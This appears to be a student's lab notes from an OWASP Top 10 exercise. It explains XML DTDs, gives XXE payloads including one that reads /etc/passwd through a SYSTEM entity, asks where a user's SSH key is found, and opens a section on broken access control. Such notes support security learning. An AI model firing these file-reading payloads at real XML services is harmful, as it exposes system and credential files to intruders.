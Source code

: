 `<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>`

Now we can use this DTD to validate the information of some XML document and make sure that the XML file conforms to the rules of that DTD.
![[Pasted image 20240811015245.png]]
- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the `to` element to be of type "#PCDATA"
- !ELEMENT from - Defines the `from` element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the `heading` element to be of type "#PCDATA"
- !ELEMENT body - Defines the `body` element to be of type "#PCDATA"

    NOTE: #PCDATA means parseable character data.

#### XXE Payload
```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>     !!!
 <userInfo>  
  <firstName>falcon</firstName>  
  <lastName>&name;</lastName>          !!!
 </userInfo>
```

We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword:
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

![[Pasted image 20240811024546.png]]
![[Pasted image 20240811024625.png]]

Where is falcon's SSH key located?
![[Pasted image 20240811024714.png]]


## [Severity 5] 

### **Broken Access Control**
Websites have pages that are protected from regular visitors, for example only the site's admin user should be able to access a page to manage other users. If a website visitor is able to access the protected page/pages that they are not authorised to view, the access controls are broken.

A regular visitor being able to access protected pages, can lead to the following:
- Being able to view sensitive information
- Accessing unauthorized functionality

OWASP have a listed a few attack scenarios demonstrating access control weaknesses:  
